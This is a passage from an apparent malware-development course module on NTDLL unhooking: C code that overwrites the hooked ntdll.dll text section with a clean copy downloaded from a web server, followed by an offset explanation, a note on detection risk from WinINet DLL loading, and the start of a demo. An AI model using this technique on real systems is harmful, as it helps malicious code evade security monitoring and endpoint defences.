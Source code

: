```c
//---------------------------------------------------------------------------------------------------------------------------

	DWORD dwOldProtection = NULL;

	// making the text section writable and executable
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// copying the new text section 
	memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);

	// rrestoring the old memory protection
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```

Even though the ntdll.dll file is _read_ from a WebServer, the offset of the text section can be `4096`, and since this assumption can't be validated until runtime, an if-statement is added to verify this possibility and work upon it by adding `3072` bytes to the miscalculated base address (because `1024` bytes were already added).

The result is a base address of a text section of offset `4096`. This logic was introduced in the _Ntdll Unhooking - From Disk_ module.

  

### Risk Consideration

Although this NTDLL unhooking approach may appear a good approach at first, it is considered risky due to the usage of the [WinINet](https://learn.microsoft.com/en-us/windows/win32/wininet/about-wininet) APIs. These APIs are used to interact with the HTTP/S protocol, but they require loading additional DLL images such as `wininet.dll`, `winhttp.dll`, `sechost.dll`, and many other DLLs that export functions used by these WinINet APIs. Loading these DLLs is done using functions that are likely being hooked such as `LoadLibrary` and `LdrLoadDll`, which exposes the inner design of the implementation.

### Demo

Downloading the `ntdll.dll` file from Winbindex.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-server-718816620-fdcedd74-65d6-49a9-b7b8-b83eb8d59b68.png)

  

The hooked `ntdll.dll` text section to be replaced.
